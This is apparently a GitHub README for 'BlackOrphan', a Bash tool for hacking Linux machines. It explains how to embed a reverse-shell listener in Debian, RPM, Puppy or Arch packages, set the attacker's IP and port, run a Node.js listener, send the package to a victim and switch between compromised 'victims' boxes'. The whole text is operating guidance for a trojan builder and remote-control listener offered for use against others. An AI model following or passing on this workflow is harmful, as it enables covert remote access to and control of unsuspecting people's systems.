# BlackOrphan
BlackOrphan is a tool built with Bash mainly for Hacking Linux Box

This script is still undergoing development. It is not usable yet

# USAGE

clone this repo

run blackorphan from the command line

```bash
./BlackOrphan1.0
==============================
1. Create a server
2. Start a Listerner
3. About
q. Exit
==============================
```

choosing 1 allows you to create a package with the reverse shell listener script embeded in the package

```bash
Select the target Operating System
===================================
1. Debian base linux system
2. Rpm base Linux system
3. Puppy Linux (.pet)
4. Arch Linux 
r. Run
b. Go back to previous menu
q. Exit
==============================
```
choosing any of the option apart from b,r and q allows you to choose the kind of package you want to create

it is adivisable to create a package ( maybe a deb package ) and use alient to convert it to support other platforms

```bash
BlackOrphan:create_server:debian_base> 
```
at that prompt you have to set the ip and port of the attacker with this command. This will be used for the reverse connection

```bash
	set lhost_lport ip_address port
```

```bash
	BlackOrphan:create_server> 
```
hit the r key here to start creating hte package

```bash
Create a new debian package for the Malware?[y|n]:
```

hit y to create a new package or hit n to specify a package that the malware will be embeded into

```bash
Specify script to bind with: 
```
specify the absolute path to the  script to bind with , supported scripts are ( py,pl and sh )

hit Ctrl + C to close blackorphan

start listener.js with the port number to use for the connection

```javascript

./listener.js 4444

```
you can now send the package to the victim, when the victim installs the package and run the script you will be able to remotely access the victims box

the commands supported by listener.js for now are

1. killclient 

2. list

3. switch

**killclient**

killclient temporary stops you from accessing the victims box, it takes an id , which is just a number

for example

killclient 1  >> kills a client with the id of 1

**list**

lists all the currently connected victims

**switch**

it switches or changes the socket object to point to another victim. It takes a single option which is the id of the victim

for example

switch 3 >> changes to the client with an id of 3



